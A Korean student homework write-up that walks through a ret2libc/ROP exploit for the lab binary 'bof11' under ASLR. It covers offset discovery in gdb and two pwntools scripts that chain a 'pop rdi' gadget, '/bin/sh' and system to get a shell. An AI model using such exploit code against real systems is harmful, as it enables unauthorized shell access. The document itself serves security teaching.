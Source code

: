 # Report. HW9.

## `bof11`

ASLR이 켜져 있다. NX bit는 꺼져있다. 스택에서의 실행이 불가능하다. 일단 RTL을 쓰고 싶은데, ASLR 때문에 정확한 주소값을 알 수가 없다(메모리의 주소값이 매 실행마다 바뀌어서 정확한 것을 찾을 수 없음). 하지만, **어떤 요소 - 여기서는 `glibc`를 기준으로 잡았다 - 를 기준으로 다른 요소들이 위치해 있는 주소값과의 상대적인 거리는 일정함**을 이용할 수 있다고 했었다. 그러니까, ~~`glibc`를 기준으로 필요로 하는 요소들 `"pop rdi ; ret"`, `"/bin/sh"`, `system`의 상대적인 위치를 구한 후,  이걸 `RET` 부분부터 덮어씌우면 될...~~ 어떻게 시작을 해야 할까.

### 각 요소들의 offset

`gdb`로 `bof11`을 디버깅하는 상황에서 필요한 요소들의 주소값을 조사해 보았다(여러번의 실행에 걸쳐서 돌리게 되면 ASLR에 의해 매번 glibc와 기타 요소들의 주소들이 달라지기 때문에 한번의 `bof11` 실행에서 각각의 주소값들을 확인하여야 한다.)

조사한 결과...

    glibc(of one bof11)   @ 0x00007faaa2c65000.
    printf(of one bof11)  @ 0x00007faaa2cba800.
    /bin/sh(of one bof11) @ 0x00007faaa2df1d57.

와 - system의 경우 `gef`에서 `search-pattern` 명령어로 찾아본 결과 3개의 결과값이 나와서 정확하게 무엇을 쓰려고 하는지 확인해볼 필요가 있었는데, 마침 `bof9`에서 내가 필요로 하는 `system`의 주소를 출력하길래 여기서의 `glibc`와 `system`의 주소값을 확인할 수 있었다 -

    glibc(of bof9) @ 0x00007ffff7a0d000
    system(of bof9) @ 0x00007ffff7a52390
    
...가 나온다.

    "pop rdi ; ret" @ 0x0000000000021102.
    
...는 `glibc` 중 `"pop rdi ; ret"` 가젯이 위치해 있는 offset이다(`ROPgadget.py`를 통해 찾을 수 있었는데 이미 offset 값으로 나와 있다).

추가...로, `RET`와 `buf` 사이의 거리가 `18`이란 걸 확인할 수 있었다.
이걸 바탕으로 목요일 수업 시간에 만들었던 payload exploit 파일 뼈대를 다듬었다.


<details><summary>exp_bof11.py.base</summary>
<p>

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n')

system_addr = printf_addr # + system offset here
binsh_addr = printf_addr # + binsh offset here
poprdi_ret = printf_addr # + binsh offset here

payload = 'x' * 20
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.send(payload)
p.interactive()

```
</p></details>


<details><summary>exp_bof11.py</summary>
<p>

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = int(p.recvuntil('\n').decode('UTF-8').strip(), 16)

glibc_offset = {}
glibc_offset['poprdi'] = 0x0000000000021102
glibc_offset['printf'] = -(0x00007faaa2c65000 - 0x00007faaa2cba800)
glibc_offset['binsh']  = -(0x00007faaa2c65000 - 0x00007faaa2df1d57)
glibc_offset['system'] = -(0x00007ffff7a0d000 - 0x00007ffff7a52390)

glibc_addr = printf_addr - glibc_offset['printf']
system_addr = glibc_addr + glibc_offset['system']
binsh_addr  = glibc_addr + glibc_offset['binsh']
poprdi_ret  = glibc_addr + glibc_offset['poprdi']

print(hex(glibc_addr))
print(hex(printf_addr))
print(hex(poprdi_ret))
print(hex(binsh_addr))
print(hex(system_addr))

payload = ('x' * 18).encode()
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.send(payload)
p.interactive()

```
</p></details>


# -- END --

